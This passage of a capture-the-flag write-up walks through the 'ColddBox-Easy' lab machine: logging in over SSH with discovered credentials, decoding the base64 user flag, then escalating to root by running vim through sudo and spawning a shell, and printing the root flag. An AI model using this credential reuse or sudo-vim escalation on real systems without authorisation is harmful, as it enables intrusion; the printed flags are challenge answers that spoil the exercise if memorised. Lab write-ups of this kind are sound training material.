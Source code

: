 ## User flag

We found credentials: `c0ldd:cybersecurity`. Let's try to connect against the SSH service:

~~~
kali@kali:/data/vpn$ ssh c0ldd@10.10.124.236 -p 4512
c0ldd@ColddBox-Easy:~$ cat user.txt 
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
c0ldd@ColddBox-Easy:~$ cat user.txt | base64 -d
Felicidades, primer nivel conseguido!
~~~

User flag: `RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==`

# Root flag

*Hint: Provide the flag in its encoded format*

Checking the privileges reveals that we can run a few programs with `sudo` with password, 1 of which being `vim`.

~~~
c0ldd@ColddBox-Easy:~$ sudo -l
[sudo] password for c0ldd: 
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
~~~

You can check possible privileges escalation using GTFOBins. Open `vim` with `sudo` and enter the following sequence: `:!/bin/bash` to spawn a root shell.

~~~
c0ldd@ColddBox-Easy:~$ sudo /usr/bin/vim

root@ColddBox-Easy:~# cd /root/
root@ColddBox-Easy:/root# cat root.txt 
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
root@ColddBox-Easy:/root# cat root.txt | base64 -d
¡Felicidades, máquina completada!
~~~

Root flag: `wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=`
